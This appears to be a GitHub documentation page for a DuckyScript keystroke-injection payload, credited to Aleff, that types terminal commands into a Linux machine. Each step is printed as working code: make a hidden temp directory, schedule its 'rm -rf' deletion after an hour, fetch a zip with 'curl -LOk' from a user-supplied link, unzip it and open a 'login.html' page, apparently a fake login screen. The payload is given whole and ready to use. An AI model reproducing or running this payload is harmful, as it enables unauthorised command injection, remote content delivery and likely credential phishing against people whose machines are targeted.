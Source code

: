 # DuckyScript Documentation

This DuckyScript code performs several actions related to downloading and unzipping a file from a specified link. The script creates a new random directory, downloads a zip file from the specified URL, and unzips it. It also opens a login page.

- First, the script creates a new random directory using the mktemp command and assigns its path to the dir_name variable. The DELAY command is used to pause the script execution for 500 milliseconds.
```DuckyScript
    REM Create a random directory
    STRINGLN dir_name=$(mktemp -d)
    DELAY 500
```

- Next, the script sets a timer using the sleep command to delete the directory after 60 minutes (3600 seconds). The rm -rf command is used to remove the directory and its contents. The & character is used to run this command in the background, allowing the script to continue running. Another DELAY command is used to pause the script execution for 500 milliseconds.
```DuckyScript
    REM Delete the directory after 60 minutes (3600 seconds)
    STRINGLN (sleep 3600 && rm -rf $dir_name) &
    DELAY 500
```

- The script then moves into the directory using the cd command and the dir_name variable. Another DELAY command is used to pause the script execution for 500 milliseconds.
```DuckyScript
    REM Move into the directory
    STRINGLN cd $dir_name
    DELAY 500
```

- Next, the script downloads the zip file from the specified URL using the curl command. The LOk option is used to download the file and give it the same name as the original file. The #ZIP_LINK placeholder should be replaced with the actual URL of the zip file. Another DELAY command is used to pause the script execution for 500 milliseconds.
```DuckyScript
    REM Download the zip from your own link
    STRINGLN curl -LOk "#ZIP_LINK"
    DELAY 500
```

- The script then unzips the downloaded file using the unzip command. The DELAY command is used again to pause the script execution for 500 milliseconds.
```DuckyScript
    REM Unzip it
    STRINGLN unzip file.zip
    DELAY 500
```

- Finally, the script opens the login page using the xdg-open command and the login.html file. The exit command is used to terminate the script.
```DuckyScript
    REM Open the login page
    STRINGLN xdg-open login.html; exit;
```

## Credits

<h2 align="center"> Aleff :octocat: </h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://github.com/aleff-github">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/github.png?raw=true width="48" height="48" />
      </a>
      <br>Github
    </td>
    <td align="center" width="96">
      <a href="https://www.instagram.com/alessandro_greco_aka_aleff/">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/instagram.png?raw=true width="48" height="48" />
      </a>
      <br>Instagram
    </td>
    <td align="center" width="96">
      <a href="https://www.linkedin.com/in/alessandro-greco-aka-aleff/">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/linkedin.png?raw=true width="48" height="48" />
      </a>
      <br>Discord
    </td>
  </tr>
</table>
</div>
